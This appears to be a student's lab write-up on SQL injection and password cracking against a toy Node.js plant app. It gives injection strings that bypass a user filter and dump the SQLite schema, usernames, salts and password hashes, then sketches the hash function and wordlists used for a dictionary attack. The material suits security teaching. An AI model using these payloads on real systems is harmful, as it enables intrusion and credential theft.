 # SQL Injection and Password Cracking
## Part A. Simple SQL injection
The query string inside the `node.js` code:

```js
var sql_query =
  'SELECT name, color, planttype, potsize, shared FROM plants WHERE user_id=' +
  user_id +
  ' AND name LIKE "%' +
  plant + '%";';
```

In SQL format:
```sql
SELECT name, color, planttype, potsize, shared FROM plants
WHERE user_id=user_id
AND name LIKE "%plant%";
```

SQL injection string into the `plant` variable such that it nullifies the `user_id` condition.
```
%" OR name LIKE "%
```


## Part B. SQL injection to steal password hashes
1) Find out the name of the table and columns where user data is stored.

> Every SQLite database has an SQLITE_MASTER table that defines the schema for the database. The SQLITE_MASTER table looks like this:
  ```sql
  CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
  );
  ```
> For tables, the type field will always be 'table' and the name field will be the name of the table. So to get a list of all tables in the database, use the following SELECT command:
  ```sql
  SELECT name FROM sqlite_master
  WHERE type='table'
  ORDER BY name;
  ```
  -- https://www.sqlite.org/faq.html#q7


SQL injection string to acquire the names of the tables:
```
-" UNION SELECT * FROM sqlite_master WHERE type='table'; --
```

Output:
```
table	users	users	2
```

SQL injection string to acquire the schema of a table:
```
-" UNION SELECT sql, NULL, NULL, NULL, NULL FROM sqlite_master WHERE name='users'; --
```

Output:
```sql
CREATE TABLE users ( id INTEGER NOT NULL, username VARCHAR(50) NOT NULL, salt VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```


2) Create an SQL injection that will retrieve and display the contents of this table.

```
-" UNION SELECT username, salt, password, NULL, NULL FROM users; --
```


## Part C. Password cracking

```julia
using SHA

function hash(password::String, salt::String)
    bytes2hex(sha256(string("potplantspw", password, salt)))[1:32]
end
```

Wordlists used for the dictionary attack

- `/usr/share/dict/words`
- [CrackStation's Password Cracking Dictionary]( https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm)
